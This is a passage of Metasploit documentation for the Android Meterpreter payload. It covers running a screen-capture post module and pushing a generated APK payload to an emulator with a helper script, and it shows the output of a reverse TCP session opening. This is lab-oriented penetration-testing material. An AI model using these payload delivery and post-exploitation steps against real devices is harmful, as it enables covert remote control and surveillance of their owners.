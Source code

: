 ...

```

**run**

The ```run``` command allows you to run a post module against the remote machine at the Meterpreter
prompt. For example:

```
meterpreter > run post/android/capture/screen 
```

## Scenarios

**Uploading APK to an Emulator using install_msf_apk.sh**

The Metasploit Framework comes with a script that allows you to automatically upload your APK to
an active emulator and execute it. It requires the [Android SDK platform-tools](http://developer.android.com/sdk/installing/index.html) to run, as well as [Java](https://java.com/en/download/).

To use this, follow these steps:

1. Start the Android Emulator
2. Generate the Android payload as an APK.
3. In msfconsole, start a handler for android/meterpreter/reverse_tcp
4. Run the installer script like this from a terminal:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk
```

The the script will do something like this:

```
$ tools/exploit/install_msf_apk.sh /tmp/android.apk 
   adding: META-INF/ANDROIDD.SF
   adding: META-INF/ANDROIDD.RSA
  signing: classes.dex
  signing: AndroidManifest.xml
  signing: resources.arsc
Failure
1562 KB/s (10715 bytes in 0.006s)
	pkg: /data/local/tmp/android.apk
Success
rm failed for -f, Read-only file system
Starting: Intent { act=android.intent.action.MAIN cmp=com.metasploit.stage/.MainActivity }
```

Back in msfconsole, you should receive a session:

```
[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] Starting the payload handler...
[*] Sending stage (62432 bytes) to 192.168.1.199
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.199:49178) at 2016-03-08 13:00:10 -0600
